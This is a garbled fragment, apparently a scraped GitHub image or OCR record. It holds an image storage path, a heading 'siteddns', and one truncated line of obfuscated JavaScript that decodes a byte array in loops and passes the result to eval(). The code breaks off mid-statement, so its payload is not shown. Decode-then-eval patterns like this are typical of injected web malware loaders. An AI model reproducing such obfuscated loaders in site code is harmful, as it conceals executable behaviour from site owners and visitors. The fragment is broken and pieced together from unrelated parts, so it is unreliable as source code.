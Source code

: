  # siteddns
=2);g="g=3;while(true){if(g>45)break;e[g]=(e[g]-e[g+1])&0xff;g++;}";eval(g);g=3;do{if(g>47)break;e[g]=(e[g]-e[g+1])&0xff;g++;}while(true);f="";for(g=1;g
